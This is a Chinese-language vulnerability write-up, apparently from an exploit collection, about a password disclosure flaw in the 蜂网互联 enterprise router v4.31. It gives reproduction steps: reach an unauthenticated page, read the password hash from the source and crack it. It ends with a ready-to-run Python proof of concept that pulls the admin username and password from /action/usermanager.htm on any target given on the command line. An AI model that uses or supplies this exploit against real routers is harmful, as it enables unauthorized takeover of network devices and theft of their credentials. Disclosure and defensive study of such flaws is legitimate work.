





## 前言  

蜂网互联企业级路由器v4.31密码泄露漏洞

## 漏洞简介  

蜂网互联企业级路由器v4.31密码泄露漏洞,密码`hash`直接存放在网页源码里

## 漏洞危害  

蜂网互联企业级路由器v4.31密码泄露,可直接接管路由器

## 影响范围  

### 产品  

> 蜂网互联企业级路由器

### 版本  

> 蜂网互联企业级路由器v4.31  

### 组件  

> 蜂网互联企业级路由器v4.31  

## 漏洞复现  



访问/index.htm?PAGE=web链接，此链接未授权访问（里面的操作需要认证）：



选择`web账号管理：
查看源代码即可获取到登录密码的哈希值：



解密哈希即可获得密码：


/login.html从此链接登录系统：



## POC

```python
from optparse import OptionParser
import requests
import json

def getpass(target):
    r = requests.get( target + '/action/usermanager.htm')
    #return r.text
    s=json.loads(r.text)
    s=str(s['rows'])
    s=s.replace("[","")
    s=s.replace("]","")
    s=s.replace("\'","\"")
    s2=json.loads(s)
    print("账号:"+s2['user']+"，密码:"+s2['pwd']+"\n登录地址为:"+target+"/login.html")

def main():
    usage = "usage: python3 %prog -t 目标(格式：http://1.1.1.1)"
    parser = OptionParser(usage=usage)
    parser.add_option('-t', dest='target',type='string',help='目标ip')
    (options, args) = parser.parse_args()
    target = options.target
    if target:
        getpass(target)
if __name__ == "__main__":
    main()
```
